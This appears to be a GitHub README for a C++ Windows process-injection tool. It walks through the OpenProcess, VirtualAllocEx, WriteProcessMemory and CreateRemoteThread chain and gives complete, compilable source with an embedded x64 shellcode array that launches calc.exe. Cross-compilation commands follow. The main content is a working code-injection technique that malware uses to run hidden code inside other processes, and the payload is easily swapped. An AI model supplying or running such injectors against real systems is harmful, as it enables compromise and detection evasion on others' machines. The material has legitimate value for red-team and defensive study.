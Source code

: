 
# 🔥 Process Injection 🔥

![C++](https://img.shields.io/badge/C++-17-blue?style=for-the-badge&logo=cplusplus)
![Windows](https://img.shields.io/badge/Windows-API-red?style=for-the-badge&logo=windows)
![Platform](https://img.shields.io/badge/Platform-Windows-lightgrey?style=for-the-badge)


# 🏗️ Code Structure
// 🎯 Main injection workflow:
1. OpenProcess()          // Get handle to target process
2. VirtualAllocEx()       // Allocate memory in remote process  
3. WriteProcessMemory()   // Write shellcode to remote memory
4. CreateRemoteThread()   // Execute shellcode remotely
5. Cleanup handles        // Proper resource management

---

# 🔧 Technical Details
## 🎯 Built-in Shellcode

The tool includes a default shellcode payload that executes calc.exe - perfect for demonstration and testing purposes.
## 🛡️ Memory Protection

    Uses PAGE_EXECUTE_READWRITE memory protection

    Proper handle cleanup to prevent resource leaks

    Error checking at each step

## 📊 API Functions Used

    OpenProcess() - Process access

    VirtualAllocEx() - Remote memory allocation

    WriteProcessMemory() - Memory writing

    CreateRemoteThread() - Remote execution

    CloseHandle() - Resource cleanup

# ⚠️ Disclaimer

    🚨 IMPORTANT: This is for educational and research purposes only!

    Use only on systems you own and have permission to test

    Do not use for malicious activities

    The authors are not responsible for misuse

    Always comply with local laws and regulations

---

## shellcode_inject.cpp

```cpp
#include <Windows.h>
#include <iostream>

int main(int argc, char* argv[]) {


	// target process id.........
	int pid = atoi(argv[1]);


	HANDLE pHandle = NULL;
	PVOID rBuffer = NULL;

	// shellcode.....
	unsigned char buf[] = 
	"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
	"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
	"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
	"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
	"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
	"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
	"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
	"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
	"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
	"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
	"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
	"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
	"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
	"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
	"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
	"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
	"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
	"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
	"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
	"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";



	pHandle = OpenProcess(
		PROCESS_ALL_ACCESS,
		FALSE,
		DWORD(pid));

	printf("Handle to pid...[%i] is : %p\n", pid, pHandle);

	system("pause");

	rBuffer = VirtualAllocEx(
		pHandle,
		NULL,
		sizeof(buf),
		MEM_COMMIT | MEM_RESERVE,
		PAGE_EXECUTE_READWRITE

	);

	printf("Memory allocated.............");

	system("pause");


	WriteProcessMemory(
		pHandle,
		rBuffer,
		buf,
		sizeof(buf),
		NULL);

	printf("Wrote shellcode into process memory..PID: %i", pid);

	system("pause");

	HANDLE hThread = CreateRemoteThread(
		pHandle,
		NULL,
		0,
		(LPTHREAD_START_ROUTINE)rBuffer,
		NULL,
		0,
		NULL
	);

	printf("Remote thread %p created in PID: %i", hThread, pid);

	CloseHandle(hThread);
	CloseHandle(pHandle);

	return 0;

}
```

---

## Cross Compilation

```bash
kant@APPLEs-MacBook-Pro ~/m/shellcode-injection> x86_64-w64-mingw32-g++ shellcode_inject.cpp -static -o inject
kant@APPLEs-MacBook-Pro ~/m/shellcode-injection> file inject.exe 
inject.exe: PE32+ executable (console) x86-64, for MS Windows, 19 sections
kant@APPLEs-MacBook-Pro ~/m/shellcode-injection>
```

---

<img width="1064" height="429" alt="file_2025-09-18_08 46 06" src="https://github.com/user-attachments/assets/3bea7c5a-61df-4da5-8a8b-084c9f223081" />

---


<img width="1270" height="627" alt="file_2025-09-18_08 45 44" src="https://github.com/user-attachments/assets/f279d06d-9360-4f34-bd95-510a459b81b7" />



----
